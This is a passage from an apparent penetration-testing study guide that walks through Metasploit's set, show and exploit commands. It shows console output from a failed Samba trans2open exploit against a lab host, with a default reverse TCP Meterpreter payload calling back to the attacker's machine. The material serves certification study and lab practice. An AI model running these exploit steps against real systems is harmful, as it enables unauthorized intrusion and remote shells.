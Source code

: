 ```bash
   --  ----
   0   Samba 2.2.x - Bruteforce
```
In this case we need to set `RHOSTS` while `RPORT` (remote port), `LHOST` (local host), and `LPORT` (local port) are set for us (we can change these if we want).
### `set`
In order to set these options we can use the `set` command + the value we want to set & the new value:
```bash
msf6 exploit(linux/samba/trans2open) > set rhosts 10.0.2.5
rhosts => 10.0.2.5
```
### `show`
Using the `show` command we can verify the *target module* (not the target host). This includes the service we're exploiting as well as the technique:
```bash
msf6 exploit(linux/samba/trans2open) > show targets

Exploit targets:
=================
    Id  Name
    --  ----
=>  0   Samba 2.2.x - Bruteforce
```
`show` can also show us encoders, nops, exploits, payloads, auxiliaries, post, plugins, info, options, and favorites (all related to the Metasploit framework and the context we're in) (use *`show all`* to get a list of all of them at once).
### `run` / `exploit`
Once we've verified our context and variables we can run our exploit using either the `run` or `exploit` command:
```bash
msf6 exploit(linux/samba/trans2open) > exploit       # <- staged payload

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] 10.0.2.5:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 10.0.2.5        # <- sending stage is a good sign
[*] 10.0.2.5 - Meterpreter session 1 closed.  Reason: Died
[*] 10.0.2.5:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 10.0.2.5
[*] 10.0.2.5 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.0.2.5:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 10.0.2.5
[*] 10.0.2.5 - Meterpreter session 3 closed.  Reason: Died
[*] 10.0.2.5:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 10.0.2.5
[*] 10.0.2.5 - Meterpreter session 4 closed.  Reason: Died
[*] 10.0.2.5:139 - Trying return address 0xbffff6fc...
[*] 10.0.2.5:139 - Trying return address 0xbffff5fc... # <- we know it's failed
^C
[-] 10.0.2.5:139 - Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
```
The exploitation didn't work, part of the reason being that *we didn't set a [payload](PNPT-study-guide/PEH/exploit-basics/payloads.md)*. Instead, Metasploit set a default payload (`linux/x86/meterpreter/reverse_tcp`). We can tell from the path that it is a *staged payload*, which might be part of the reason it didn't work.
### `set`